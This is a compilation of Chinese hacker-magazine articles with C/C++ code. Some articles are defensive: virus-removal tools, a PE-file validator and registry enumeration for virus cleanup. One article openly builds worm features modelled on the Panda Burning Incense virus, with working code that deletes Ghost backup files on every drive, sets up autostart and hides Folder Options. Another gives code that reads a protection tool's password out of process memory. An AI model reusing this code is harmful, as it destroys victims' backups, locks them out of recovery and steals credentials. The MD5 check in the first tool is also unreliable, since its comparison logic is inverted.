```cpp
void BrowseFile(CString strFile)
{ // 搜索文件的关键代码
    CFileFind ff;
    CString szDir = strFile;
    if(szDir.Right(1) != "\\")
        szDir += "\\";
    szDir += "*.exe";
    BOOL res = ff.FindFile(szDir);
    while(res)
    {
        res = ff.FindNextFile();
        if(ff.IsDirectory() && !ff.IsDots())
        {
            CString strPath = ff.GetFilePath();
            BrowseFile(strPath); // 递归调用
        }
        else if(!ff.IsDirectory() && !ff.IsDots())
        {
            DeleteFile(ff.GetFilePath());
        }
    }
    ff.Close();
}
```

```cpp
{
    char VirMd5[] = "8b1c23d1912bf9969e41b65823bfc98e";
    char Md5String[255];
    double nbytes;
    CString m_buf;
    m_buf.Format("现在正扫描到:%s", ff.GetFilePath());
    m_static->SetWindowText(m_buf);
    #define MD5_LEN 64
    unsigned char buf[4096];
    unsigned char binout[16];
    FILE* f;
    md5_state_t state;
    int i, n;
    nbytes = 0;
    f = fopen(ff.GetFilePath(), "rb");
    if (!f) {
        fprintf(stderr, "file can't open %s\n", ff.GetFilePath());
        perror("file");
        return;
    }
    md5_init(&state);
    while (1)
    {
        n = (int)fread(buf, 1, 4096, f);
        if (n <= 0) break;
        nbytes += n;
        md5_append(&state, buf, n);
    }
    md5_finish(&state, binout);
    for (i = 0; i < 16; i++) {
        sprintf(Md5String + 2 * i, "%02x", binout[i]);
    }
    Md5String[32] = 0;
    fclose(f);
    if(strcmp(Md5String, VirMd5))
    if(MessageBox(0, "发现病毒，是否删除？", "警告", MB_YESNO) == IDYES)
        DeleteFile(ff.GetFilePath());
}
```

有了以上代码，我们的专杀工具就算做好了，其界面如图2所示。把系统重新启动，进入安全模式，启动专杀工具，吃顿饭回来，OK，病毒杀光光！

图2

当然，这个小工具只是我给大家的一个小启发，其实其他的病毒也可以利用这种思路来编写专杀工具的，就看大家能不能把自己学到的知识合理发挥利用了。如果这个 ANI 蠕虫病毒出了新变种，我们只要把上面的核心代码修改一下，另一个专杀工具就诞生了！

【本文涉及的代码（程序），请见随书光盘】

## 仿制“熊猫烧香”，编程实现病毒隐形

文/图 暗夜舞者

在《黑客防线》杂志2008年第4期的文章中，我给大家介绍了编写病毒隐藏和防杀的代码，但这对于一个蠕虫病毒来说，还远远不够。本文着重介绍“熊猫烧香”删除 GHO 文件的代码和有关注册表的编程实现，希望通过本文的分析，大家能更好地防范类似的病毒。

#### 修改注册表函数

修改注册表是每个病毒必备的功能，下面我就注册表中几个关键位置进行编程实现。首先，开机启动是必要的，一般的位置是“HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run”下，其函数如下。

这个函数将在注册表中创建一个 `REG_SZ` 值，名为“a.exe”，值为“c:\a.exe”，开机后将自动运行 a.exe。

其次，我们的程序是隐藏的，不希望被别人发现，所以我们要屏蔽掉“工具”菜单的“文件夹选项”，其注册表位置是“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer”，在右边空白处添加一个 `DWORD` 值，名为“NoFolderOptions”，值为 `0x00000001`。实现代码如下。

### 删除GHO函数

凡是中过“熊猫烧香”的朋友，最烦恼的事八成是 GHO 文件被删除，导致不能对系统进行恢复操作，只能重装系统。我们这次就要写这样一个函数，其作用是删除 GHO 和 GHS 文件，之后将函数加到 worm.exe 的循环中（worm.exe 在第4期的文章中已经给出），具体代码如下。

```cpp
void delgho(CString m_path)
{
    CFileFind ff;
    CString szdir = m_path;
    if(szdir.Right(1) != "\\")
        szdir += "\\";
    szdir += "*.*";
    BOOL ree = ff.FindFile(szdir);
    while(ree)
    {
        ree = ff.FindNextFileA();
        CString kuozhan = ff.GetFileName();
        if(kuozhan.Right(3) == "GHO" || kuozhan.Right(3) == "gho" ||
           kuozhan.Right(3) == "GHS" || kuozhan.Right(3) == "ghs")
            DeleteFile(ff.GetFilePath());
        if(ff.IsDirectory() && !ff.IsDots())
            delgho(ff.GetFilePath());
    }
    ff.Close();
}
```

```cpp
void zhuce(void)
{
    HKEY key;
    LPCSTR dw1 = "c:\\a.exe";
    LPCSTR data = "Software\\Microsoft\\Windows\\CurrentVersion\\Run";
    if(RegCreateKey(HKEY_LOCAL_MACHINE, data, &key) == ERROR_SUCCESS)
    {
        RegSetValueEx(key, "a.exe", 0, REG_SZ, (LPBYTE)dw1, 30);
    }
}
```

这个函数的参数可以赋值为“C:”“D:”等，因此它可以放到 `for(char i='A'; i<='Z'; i++)` 中，将各个盘符当作参数值传递给它，使其搜索硬盘中所有的以 GHO、gho、GHS 和 ghs 为扩展名的文件并删除。

运行此函数后，将立刻屏蔽掉“文件夹选项”，就可以对病毒文件起到保护作用。但是，如果用户改回了注册表的值，我们将会前功尽弃，因此还要禁止使用注册表。注册表位置为“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System”，若 Policies 下没有 System 子键则新建一个，而后在右侧建一个 `DWORD` 值，名为 `DisableRegistryTools`，值为 1。虽然屏蔽了注册表，可是用户还可以使用 REG 文件恢复注册表的使用，所以我们还要禁止使用 REG 文件，其注册表位置在 `HKEY_LOCAL_MACHINE\Software\CLASSES\.reg`，将右侧的“默认”的值改为“txtfile”。至于这两个方法的编程实现，和上面的方法类似，我就不写出代码了，大家可以看随文提供的源代码。

```c
data = "Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer";
if(RegCreateKey(HKEY_CURRENT_USER, data, &key) == ERROR_SUCCESS)
{
    RegSetValueEx(key, "NoFolderOptions", 0,
    REG_DWORD, (LPBYTE)&dw, sizeof(DWORD));
}
```

```c
HKEY key;
DWORD dw = 0x00000001;
LPCTSTR
```

到此为止，我们的任务就算完成了，至于进程监视等实现方法，我将在以后的文章中为大家继续介绍。本文介绍的恶意代码希望大家仅用于学习编程使用，请勿用于不法途径。

【本文涉及的代码（程序），请见随书光盘】

### 手把手教你编写威金病毒清除工具

我是《黑客防线》杂志的老读者了（众粉丝别向我叫嚣了^_^），从《黑客防线》杂志早期配送小册子开始到现在。说来惭愧，一直以来我都没有给《黑客防线》杂志写过文章。为在这最后的学生时代给自己留个纪念，于是在五一期间写了本文，也就是下面我要给大家讲的如何编写威金病毒 viking.ix 的清除工具（这里只是抛砖引玉）。

#### 病毒分析

当时中这个病毒也是出于偶然，事后感觉机器反应很慢，调出任务管理器后发现里面出现了N多令人反感的进程 `Logo1_.exe` 和 `rundl132.exe`（两个毒药也叫N多？当然啦！因为此时注册表里面的启动项已经被搞得面目全非了，几乎全是威金的同党），先把名字全部记下来，再统统结束掉，总不能让它们在我眼皮子底下嚣张吧？不再废话了，操家伙开工。

首先搜索 `Logo1_.exe` 文件，用 PEiD 查壳，如图1所示，什么都没有找到，但却发现它的区块信息有些怪异，都是些类似 `Lw0x61`、`Lw0x62`、`Lw0x63` 的东西，如图2所示。再看这个病毒的导入表，如图3所示，发现它只导入了3个函数。再用 PEiD 查那些疑似被感染的正常文件，发现查壳显示信息与图1显示的一模一样。

| 名称 | V.偏移 | V.大小 | R.偏移 | R.大小 | 标志 |
|---|---:|---:|---:|---:|---|
| Lw0x60 | 00001000 | 0002D000 | 00000200 | 0000F000 | E0000060 |
| Lw0x61 | 0002E000 | 0000F000 | 0000F200 | 0000F000 | E0000060 |
| Lw0x62 | 0003D000 | 00000F01 | 0001F200 | 0000037A | E0000060 |

| 地址 | 值1 | 值2 | 值3 | 函数 |
|---|---:|---:|---:|---|
| 0002E064 | 00000264 | 0003CE49 | 0000 | LoadLibraryA |
| 0002E068 | 00000268 | 0003CE38 | 0000 | GetProcAddress |
| 0002E06C | 0000026C | 0003CE2A | 0000 | ExitProcess |

显然这些信息都一样，但是它们的文件大小却不一样，难道正常文件被附到病毒体后面，成为 PE 文件的附加数据了？熟悉 PE 文件结构的都知道，PE 文件尾部的数据是不会被 PE 加载器加载的，可能病毒是个 LOADER，先自己运行，然后从体内把正常文件释放出来，再执行正常的文件。但这些都是我的猜测，为了进一步验证，我运行了一个被感染的文件，发现程序过了好半天才反应过来，然后才出现窗口，打开任务管理器发现进程中再次出现了 `Logo1_.exe` 和 `rundl132.exe`，结束它们后，此时程序图标恢复成了原先的样子。看来果真如我所想，不过还是得验证一下。

请出 WinHex 加载被感染的文件，直接“CTRL+F”搜索字符串“PE”（不包括引号，PE是所有 Win32 可执行文件的一个标志），按了数次 F3 后终于找到了我想看到的东西，在搜索到的 PE 字符串前有一段信息“This program must be run under Win32”，很熟悉这段字符串吧？继续往上翻，发现了另一个重要的标志“MZ”，这段数据可能是一个完整的可执行文件。在 WinHex 中选定找到的“MZ”，然后右键选择出现的“定义块选”菜单，在弹出的窗口中只需将“结尾”编辑框后的下拉菜单选为“文件结束”，确定后这段数据便被选上了。CTRL+C 复制，然后新建一个 0 字节的 EXE 文件，用 WinHex 编辑，CTRL+V 后关闭 WinHex，发现那个新建的 EXE 文件就是我们的正常文件。现在一切猜想都是真实了，我们的正常 EXE 文件都被病毒放到了病毒体内，病毒程序先执行，把自己从感染文件中剥离，然后释放出正常文件，再执行正常文件。

知道了原理，我们要做的就是恢复那些被感染后的正常程序。上面说过了，被感染后的程序只要双击一下，正常程序便会恢复，但是我总不能选择这个愚蠢的方法吧？否则岂不是助纣为虐？我们得另想办法。

#### 编程实现

我们接下来要分析的是病毒清除工具的主要流程，如图4所示：遍历磁盘分区→依次扫描各分区的文件夹中的文件→判断是否是 PE 文件→若是则判断程序是否被感染→若被感染则清除病毒。

那么如何判断文件是否是被感染呢？我们知道，被感染后的文件的区块表名都是类似 `w0x61`、`w0x62` 的内容，我们可以用它作为病毒特征码。

好像不太保险，搞不好出现误杀就不好办了。再仔细看看图1，我们可以用程序的入口点 `00030C96` 和入口点的前4个字节 `74 03 75 01` 作为病毒特征码，如果程序的入口点和入口点的前4个字节都与特征码相符，那么我们便判断它是病毒或是被感染的文件。这里有一点要注意了，由于程序的入口点是相对虚拟地址，也就是常说的 RVA，因此我们要把它换算成文件偏移地址，这个操作可由 PE Editor 来计算，结果为 `2E96`，如图5所示。

图5

现在我们就开始与病毒对抗的激动人心之旅吧！本文需要大家有 C 语言的基础，了解 PE 文件结构，熟悉一些常用的 API 函数，文章中用到的有 `GetCurrentDirectory`、`SetCurrentDirectory`、`FindFirstFile`、`FindNextFile`、`CreateFile`、`CreateFileMapping`、`MapViewOfFile`、`FlushViewOfFile`、`UnmapViewOfFile`、`CloseHandle`、`SetFilePointer`、`SetEndOfFile` 和 `GetDriveType`，这些 API 函数大家可以从 MSDN 中得到帮助。所有的准备工作都已就绪，LET'S GO！

图4

```c
#include "windows.h"
#include "stdio.h"
#include "string.h"
int g_Count_File = 0;
void list(char *cPath)
{
    WIN32_FIND_DATA wfd;
    HANDLE hFind;
    char cDir[MAX_PATH];
    char cSubDir[MAX_PATH];
    GetCurrentDirectory(sizeof(cDir), cDir);
    SetCurrentDirectory(cPath);
    hFind = FindFirstFile("*.*", &wfd);
    if(hFind == INVALID_HANDLE_VALUE) { return; }
    do {
        // 判断是否是目录
        if(wfd.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) {
            if(wfd.cFileName[0] != '.') {
                wsprintf(cSubDir, "%s\\%s", cPath, wfd.cFileName);
                list(cSubDir);
            }
        }
    } while(FindNextFile(hFind, &wfd));
}
```

```cpp
else
{
    HANDLE hFile=::CreateFile(wfd.cFileName,
        GENERIC_READ|GENERIC_WRITE,
        FILE_SHARE_READ|FILE_SHARE_WRITE,NULL,
        OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL);
    if(hFile==INVALID_HANDLE_VALUE)
        continue;
    HANDLE hMap=::CreateFileMapping(hFile,NULL,
        PAGE_READWRITE,0,0,NULL);
    void* pAdd=::MapViewOfFile(hMap,
        FILE_MAP_ALL_ACCESS,0,0,0);
    if(hMap==0)
        continue;

    DWORD *pPe;
    PIMAGE_SECTION_HEADER pSec;
    WORD nSecNumber=0;
    DWORD dNewFileSize=0;
    DWORD *pNewFile;
    DWORD *pOep;
    DWORD flag; // 判断是否文件首字为 MZ

    if(*(WORD*)pAdd==0x5a4d)
    {
        pPe=(DWORD*)*((DWORD*)((char*)pAdd+0x3c));
        pPe=(DWORD*)((DWORD)pAdd+(DWORD)pPe);
        dNewFileSize=::GetFileSize(hFile,&dNewFileSize);

        if ((DWORD)pPe<=((DWORD)pAdd+dNewFileSize)
            && *pPe==0x00004550)
        {
            nSecNumber=*(WORD*)((char*)pPe+6);
            pSec=(PIMAGE_SECTION_HEADER)((char*)pPe+248);
            pOep=(DWORD*)((char*)pPe+40);

            if (*pOep==0x30C96)
            {
                flag=*(DWORD*)((char*)pAdd+0x2E96);
                if (flag==0x01750374)
                {
                    for(unsigned int i=1;i<nSecNumber;i++)
                        pSec=(PIMAGE_SECTION_HEADER)((char*)pSec+40);

                    dNewFileSize=dNewFileSize-
                        (pSec->PointerToRawData+pSec->SizeOfRawData);
                    pNewFile=(DWORD*)(pSec->SizeOfRawData+
                        pSec->PointerToRawData+(char*)pAdd);

                    char *temp1,*temp2;
                    temp1=(char*)pAdd;
                    temp2=(char*)pNewFile;

                    for (i=0;i<dNewFileSize;i++)
                        *(temp1++)=*(temp2++);
                }
            }
        }
    }
}
```

```cpp
::FlushViewOfFile(pAdd,dNewFileSize);
::UnmapViewOfFile(pAdd);
::CloseHandle(hMap);  // 修改文件大小
::SetFilePointer(hFile,dNewFileSize,NULL,FILE_BEGIN);
::SetEndOfFile(hFile);
g_Count_File++;
printf("%s\t被清除\n",wfd.cFileName);

::UnmapViewOfFile(pAdd);
::CloseHandle(hMap);
::CloseHandle(hFile);

while(::FindNextFile(hFind,&wfd)!=0);
::SetCurrentDirectory(cDir);

void main()
{
    char cDrive[4]="A:\\";
    char* p=cDrive;
    UINT uDriveType;
    for(;*p<='Z';(*p)++)
    {
        uDriveType=::GetDriveType(cDrive);
        if (uDriveType==DRIVE_REMOVABLE||uDriveType==DRIVE_FIXED)
            list(cDrive);
    }
    printf("共 %d 个文件被感染\n",g_Count_File);
    system("pause");
}
```

将代码编译后，在测试过程中我发现清除病毒的效果很不错，如图6所示。不过有一点我没有弄清楚：用 GetDriveType 函数取得设备类型时，如果是软驱且有插入软盘时，程序会弹出一个对话框，导致程序不能再继续运行了（可以在 BIOS 中禁用软驱来避免这种情况）。

再者，这个程序只能对这一类型的威金病毒进行清除，一旦出现变种后，便需要重新修改特征码；但据我收集到的样本，发现威金病毒有一个共同特点，就是区块命名都是形如 lw0x61、lw0x62……、hiksxc1、hiksxc2……、z7j8g41、z7j8g42…… 的样子，似乎特征码比较容易找到。本文之所以没有采用该类值来作特征码是担心出现误杀，所以大家可以根据需要选取你认为合理的值作为特征码，尽情地发挥！


图6

> 【本文涉及的代码（程序），请见随书光盘】

## 打造多版的还原精灵

### 密码读取工具

文/图 冷风 德州科技职业学院


前两天看了 WinEggDrop 公布的 FindPass2003 源代码，由衷感觉 Windows 密码居然能这样读出来，其他程序怕也……想想当年还原精灵曾让我痛苦过一段时间，现在就拿它开刀吧！

#### 编程原理

还原精灵在验证密码时，正确密码会以明文方式出现在内存中，而且出现的偏移位置是固定的，我们可以用 ReadProcessMemory 来读取真正的密码。

很明显，我们需要知道密码在内存中的偏移地址。找到明文在内存出现的偏移地址，最简单的方法就是用 WinHex 直接打开目标进程，然后搜索密码串，从而得到密码所对应的偏移地址。需要注意的是：还原精灵只有在密码验证时，正确密码才会出现在内存中，所以用 WinHex 查看之前，应该先打开还原精灵的“更改密码”项，然后随便输入一些东西，点“确定”后会提示密码不正确，如图1所示。但真正的密码此时已经以明文方式存在于内存中了。我们用 WinHex 打开还原精灵的主进程 HDDGMon.exe，搜索密码串，如图2所示，这时密码所对应的地址就是我们所要的偏移地址啦，也就是 008C3BC0。有了偏移地址，我们就可以编程找出密码了。我们程序的实现效果如图3所示。


图2

#### 编程实现

读取内存一个重要的 API 函数就是 ReadProcessMemory，其函数原型如下。


图3

```c
BOOL ReadProcessMemory(
    HANDLE hProcess,              // 目标进程句柄
    LPCVOID lpBaseAddress,        // 读取数据的起始地址
    LPVOID lpBuffer,              // 存放数据的缓冲区地址
    DWORD nSize,                  // 要读取的字节数
    LPDWORD lpNumberOfBytesRead   // 实际读取数存放地址
);
```

其中，参数 hProcess 是目标进程的句柄，该句柄必须对目标进程具有 PROCESS_VM_READ 的访问权限。通常用 PROCESS_ALL_ACCESS 就什么权限都有了。lpBaseAddress 是从目标进程中读取数据的起始地址，也就是我们前面查出的偏移地址 008C3BC0。lpBuffer 是用来接收数据的缓存区地址。nSize 是从目标进程读取数据的字节数，这里我们用 100 个字节。lpNumberOfBytesRead 是实际被读取数据大小的存放地址。如果被指定为 NULL，那么将忽略此参数。还要注意的是：该函数用来读取指定进程的空间的数据，要求此空间必须是可以访问的，否则读取操作会失败。

我们用 VC6.0 生成一个基于对话框的程序，并添加一个“读取密码”按钮及响应函数 OnOK()，并在函数中加入如下代码。

```cpp
void CMyDlg::OnOK()
{
    char *password;      // 存入密码
    password = (char*)malloc(2000);
    // 注意分配空间
    PROCESSENTRY32 pe32;
    // pe32 用来存放进程的详细信息
    pe32.dwSize=sizeof(pe32);
    // pe32.dwSize 必须赋值，否则会出错
    HANDLE hProcessSnap=::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
    // 获得进程快照句柄
    if(hProcessSnap==INVALID_HANDLE_VALUE)
    {
        MessageBox("CreateToolhelp32Snapshot调用失败!");
    }
    BOOL bMore=::Process32First(hProcessSnap,&pe32);
    // 开始枚举进程
    while(bMore)
    {
        if(strstr(pe32.szExeFile,"HDDGMon.exe"))
        {
            ...
        }
        bMore=::Process32Next(hProcessSnap,&pe32);
    }
}
```

```cpp
// 是否为还原精灵进程
{
    HANDLE hProcess=::OpenProcess(PROCESS_ALL_ACCESS,FALSE,pe32.th32ProcessID);
    // 注意打开进程句柄权限
    if(hProcess!=NULL)
    {
        if(ReadProcessMemory(hProcess,(LPCVOID)0x008C3BC0,password,100,NULL))
            // 读取密码
            MessageBox(password);
        else
            MessageBox("读取数据失败");
    }
    ::CloseHandle(hProcess);
}
bMore=::Process32Next(hProcessSnap,&pe32);
}
```

以上代码编译后，记得使用时要先打开还原精灵的更改密码项，随便输入点东西验证一下，以保证正确密码出现在内存中，再点击读取。

怎么样，是不是感觉很简单？以后如果有类似明文比较密码的程序，只要把代码中的偏移地址改一下，就可以做个自己的注册机喽。

[本文涉及的代码（程序），请见随书光盘]

## 检测PE文件的有效性


从杀毒软件的角度来讲，检测文件是否为 PE 文件，可以进一步判断使用何种方式对文件进行操作。在病毒感染可执行文件时，也是应该有这样的步骤的。下面我们就来看看杀毒软件是如何检测 PE 文件的有效性。

PE 文件是 Windows 系统中任何可执行模块或者 DLL 的文件格式。PE 的意思是 Portable Executable（可移植的执行体），它是 Win32 环境自身所带的执行体文件格式。PE 文件格式是跨 Win32 平台的，也就是说即使是运行在非 Intel CPU 上的 Windows 都能够被 PE 装载器识别和使用该文件格式。关于 PE 格式的具体结构，大家可以看图1，图中画圈的内容为我们要讨论的部分。


图1

所有常见的 PE 结构定义在 winnt.h 头文件中。我们一般关心的有 `IMAGE_DOS_HEADER`、`IMAGE_FILE_HEADER`、`IMAGE_OPTIONAL_HEADER32`、`IMAGE_SECTION_HEADER`、`IMAGE_NT_HEADER`……在这里，我们只讨论两个结构，一个是 `IMAGE_DOS_HEADER`，另一个是 `IMAGE_NT_HEADERS`。通过这两个结构，我们就可以完成检测 PE 有效性的功能了。好了，看看这两个结构在 winnt.h 中的定义吧。

```c
typedef struct _IMAGE_DOS_HEADER {
    // DOS .EXE header
    WORD  e_magic;      // Magic number
    ...
    LONG  e_lfanew;
    // File address of new exe header
} IMAGE_DOS_HEADER, *PIMAGE_DOS_HEADER;

typedef struct _IMAGE_NT_HEADERS {
    DWORD Signature;
    IMAGE_FILE_HEADER FileHeader;
    IMAGE_OPTIONAL_HEADER32 OptionalHeader;
} IMAGE_NT_HEADERS32, *PIMAGE_NT_HEADERS32;
```

由于 `IMAGE_DOS_HEADER` 结构中有很多成员，因此我只列出了我们要讨论的部分内容。在 `IMAGE_DOS_HEADER` 结构中，`e_magic` 为 DOS 可执行文件标记；`e_lfanew` 是相对实际 PE 头标的相对偏移量，也就是 `IMAGE_NT_HEADERS` 结构的地址。在 `IMAGE_NT_HEADERS` 中，我们只使用 `Signature` 这个成员，它是 PE 文件的标识（`PE\0\0`）。为了方便编程，在 winnt.h 中为 DOS 标识和 PE 标识定义了宏，分别如下。

```c
#define IMAGE_DOS_SIGNATURE 0x5A4D      // MZ
#define IMAGE_NT_SIGNATURE  0x00004550  // PE\0\0
```

好了，有了上面的 PE 结构的知识，我们就可以完成检测 PE 文件有效性的程序了。接下来看编写检测 PE 文件有效性程序的步骤。首先，我们需要用 `CreateFile` 打开要检测的文件，然后通过判断是否是 `IMAGE_DOS_SIGNATURE` 来检测是否是有效的 DOS 头，接下来用 `e_lfanew` 来定位 PE 头，最后通过判断是否是 `IMAGE_NT_SIGNATURE` 来检测文件的有效性。一共4步，不过最后记得要用 `CloseHandle` 来关闭已打开文件的句柄。好了，可以介绍的内容大概就这么多了，来看看具体的代码吧！

```c
// 这里就是我们的第一步，打开要检测的文件
hFile = CreateFile(FileName, GENERIC_READ,
                   FILE_SHARE_READ, NULL, OPEN_EXISTING,
                   FILE_ATTRIBUTE_NORMAL, NULL);
```

```c
FILE_ATTRIBUTE_NORMAL, NULL);
// 这里是第二步，检测DOS头部的有效性
ReadFile(hFile, &image_dos_header, sizeof(image_dos_header), &dwRead, NULL);
if (dwRead == sizeof(image_dos_header)) {
    if (IMAGE_DOS_SIGNATURE == image_dos_header.e_magic) {
        // 这里是第三步，定位image_nt_headers的位置
        if (SetFilePointer(hFile, image_dos_header.e_lfanew, NULL, FILE_BEGIN)) {
            ReadFile(hFile, &image_nt_headers, sizeof(image_nt_headers), &dwRead, NULL);
            if (dwRead == sizeof(image_nt_headers)) {
                // 这里就是最后一步了，检测PE头部的有效性
                if (IMAGE_NT_SIGNATURE == image_nt_headers.Signature)
                    b = TRUE;
            }
        }
    }
}
if (b)
    MessageBox("该程序是一个有效PE文件！");
else
    MessageBox("该程序不是一个有效PE文件！");
CloseHandle(hFile);
```

依据我开始写的程序的逻辑，可以得到上面所示的代码，其中还有 `CreateFile()`、`ReadFile()`、`SetFilePointer()` 这些 API 函数，它们都可以在 MSDN 中找到，大家自己查阅一下吧，这里就不给出它们的定义了。程序编译运行后的效果如图2所示。


图2

其实这种方式并不是唯一的一种检测 PE 文件有效性的方式，本文只是想起到抛砖引玉的目的罢了。在《黑客防线》2007年第4期中的《以“熊猫烧香”的名义，再谈 Delphi 编写病毒程序》一文中，作者判断 PE 文件有效性的方式是顺序读取文件前 0x108 字节的内容，每次读取两个字节，然后判断是否为“PE”标识。当然，除了这两种方法外，还有其他的方法。在其他的方法中，不再使用 `ReadFile()` 和 `SetFilePointer()` 这两个 API 函数，而是除了使用 `CreateFile()` 函数外，还要使用一些内存映射文件方面的相关函数 `CreateFileMapping()` 和 `MapViewOfFile()`。这里就不详细讨论它们了，留给大家自己去研究一下吧。

【本文涉及的代码（程序），请见随书光盘】

## 枚举注册表

### 搜索病毒痕迹的实现思路

文／图 灰狐（D.S.T&E.S.T）

那篇关于 algsrvs 病毒专杀的文章中有点不太完美的地方，就是没有把清理注册表那一部分写完整。一个原因是当时我已经把病毒清理干净了，没有记录下每一个相应键值的位置；还有一个原因是就算我记录下来了，也是一件相当麻烦的事情，因为病毒在注册表中写入的信息相当多，大概有几十处，这样一个一个删还不把人累死？当然，也不是没有办法，下面就用一种比较简单的思路来进行演示。首先完整枚举所有项，检查其键值是否被病毒修改过，然后进入子项中递归调用此函数完成遍历注册表的功能。

为了程序的通用性，今天我不用 VCL 库中的 Registry 类了，改用 Windows 操作系统提供的正宗 API，这样大家就可以把它完美地嵌入到自己的程序中了。

首先来讲一点基础知识，让没有编程操作过注册表的菜友们也能顺利上手。注册表有 5 大子键，这我就不废话了，这次我们只拿其中比较重要的一个 HKEY_LOCAL_MACHINE 来演示。需要遍历注册表的话，只需要把函数简单修改下调用 5 次就没问题了。我们在注册表中某个地方点击右键，选择“新建”，可以看到有以下几种数据类型：字符串值、二进制值、DWORD 值、多字符串值、可扩充字符串值。最常用的也是注册表中子项的默认值就是字符串值，它的内部名称为 REG_SZ。

关于注册表编程的资料通常都很零散，所以我们最好的参考书就是 MSDN 了。在 MSDN 的索引里输入 Reg 就可以显示出所有以 Reg 开头的函数，前面那些基本就是跟操作注册表有关的，RegOpenKeyEx、RegCloseKey、RegDeleteValue、RegEnumKeyEx、RegEnumValue、RegQueryValueEx 和 RegSetValueEx 这几个是我们重点需要的。

首先我们来看一下删除病毒键值的方法。为避免误删除，我们先自己建立一个子项：HKEY_LOCAL_MACHINE\SOFTWARE\grayfox，选中它后在右边的空白区域点右键，“新建-->字符串值-->test”，双击“test”，在“数值数据”里输入“test1,test2,test3”。我们假设 test 是启动项，test1、test2 是本来的启动程序，病毒又向其中添加了一个 test3，我们的目的就是使其还原为 test1、test2。这里需要注意的是：我们是不能直接使用 RegDeleteKey 将其删除的，如果里面只有 test3 这个值的话是可以的，但如果还有其他值的话，则需要使用 RegSetValueEx 重新设置。

我们使用 VC 6.0 建立一个控制台程序测试效果，代码如下。

```cpp
#include <stdio.h>
#include <windows.h>

void main()
{
    HKEY hKey = NULL;
    DWORD rc;
    rc = ::RegOpenKeyEx(HKEY_LOCAL_MACHINE, "software\\grayfox", 0, KEY_ALL_ACCESS, &hKey);
    if (rc == ERROR_SUCCESS)
    {
        unsigned char buffer[MAX_PATH] = "\0";
        DWORD type = REG_SZ;
        DWORD size = sizeof(buffer);
        if (RegQueryValueEx(hKey, "test", NULL, &type, (LPBYTE)buffer, &size) == ERROR_SUCCESS)
        {
            // 先读取原内容保存到 buffer 中
            printf("%s\n", buffer);
            char *lstr;
            lstr = strstr((char *)buffer, "test3");
            // 检查是否有 test3 这个值
            if (lstr != NULL) // 如果有则进入处理
            {
                printf("Find!\n");
                if (strchr((char *)buffer, ',') == NULL) // 检查是否有逗号
                {
                    // 无逗号说明只有这个值，可直接删除
                    RegDeleteValue(hKey, "test");
                }
                else
                {
                    // 有逗号不能直接删除，需重新设置值
                    int result = (int)lstr - (int)buffer;
                    // 找到病毒名字字符串所在位置
                    buffer[result - 1] = '\0';
                }
                printf("New Buffer:%s\n", buffer);
                sprintf((char *)buffer, "%s", buffer);
                RegSetValueEx(hKey, "test", 0, REG_SZ, buffer, sizeof(buffer));
            }
        }
    }
    else
    {
        printf("Can't Open The Key!\n");
        RegCloseKey(hKey);
    }
}
```

在上面这段代码中，我使用了条件编译指令，分别演示用来枚举子项还是键值，默认是枚举 HKEY_LOCAL_MACHINE\SOFTWARE 下所有的子项，如果改为 `#define SUBKEYS 0` 就是枚举 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion` 下所有的键值，测试结果如图 1 和图 2 所示。

代码其实不长，函数也不多，很容易看懂，太多的注释反而会影响整体思路。下面的代码都侧重于搜索，而对搜索到符合条件的值如何处理没有给出实际代码，所以这段代码请务必会。

我们运行一下看看，果然被修改成了 test1、test2。我们再把这两个值改成 test3，重新运行程序，可以看到由于只有一个值，这个键值被直接删除了，hoho~~ 命中目标！

当然，这段代码并不完善，因为假如里面刚好有个值为 abctest3de 的话，不是被直接 KILL 就是被改成 abc 了，完全不符合我们原来的设想了，这个问题就留给大家发挥自己的聪明才智来解决。

下面我们来演示枚举子项和枚举键值，代码如下。

图1

图2

```c
#include <windows.h>
#include <stdio.h>
#define SUBKEYS 1 // 决定是枚举子项还是键值

void main()
{
    HKEY hKey = NULL, h = NULL;
    char str[MAX_PATH];
    DWORD num = sizeof(str), index = 0, rc;

#if SUBKEYS
    rc = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE", 0, KEY_ALL_ACCESS, &hKey);
#else
    rc = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion", 0, KEY_ALL_ACCESS, &hKey);
#endif

    if (rc == ERROR_SUCCESS)
    {
#if SUBKEYS
        while (RegEnumKeyEx(hKey, index, str, &num, NULL, NULL, NULL, NULL) == 0)
#else
        while (RegEnumValue(hKey, index, str, &num, NULL, NULL, NULL, NULL) == 0)
#endif
        {
            printf("%s\n", str);
            index++;
            num = MAX_PATH;
        }
        printf("\n\nNumberOfindex = %d\n\n", index);
    }
    else
    {
        printf("Can't Open The Key!\n");
    }
    RegCloseKey(h);
    RegCloseKey(hKey);
}
```

嘿嘿，非常完美地实现了我们的功能哦。当然，这只是演示，要想应用到实际中其实也不难，如果你还记得那段经典的遍历文件的代码的话，这个就应该不在话下。呵呵，就是利用递归来实现的。我写了一段演示代码，献丑了。

```c
#include <windows.h>
#include <stdio.h>
#define MAINKEY HKEY_LOCAL_MACHINE // 主键

int ResultCount = 0;

// 全局变量用来记录符合条件的值数
// 下面这段代码是处理键值的；第一个参数是使用 API 从注册表中读出键值，
// 第二个参数是要查找的值，比如病毒名。
bool StealReg(char KeyValue[MAX_PATH], char Virus[MAX_PATH])
{
    // 这里面要实现的具体功能请大家根据实际情况自行扩充
    if (strcmp(KeyValue, Virus) == 0)
    {
        ...
        return true;
    }
    return false;
}

// 这个函数是关键，唯一的参数是 SubKey，比如“software\\Microsoft”
void EnumReg(char SubKey[MAX_PATH])
{
    char temp[MAX_PATH];
    HKEY hKey = NULL;
    char str[MAX_PATH]; // 存放读取出来的值
    DWORD num = sizeof(str), index = 0, rc;

    rc = ::RegOpenKeyEx(MAINKEY, SubKey, 0, KEY_ALL_ACCESS, &hKey);
    if (rc == ERROR_SUCCESS)
    {
        while (RegEnumValue(hKey, index, str, &num, NULL, NULL, NULL, NULL) == 0)
        {
            printf("\t%s\n", str);
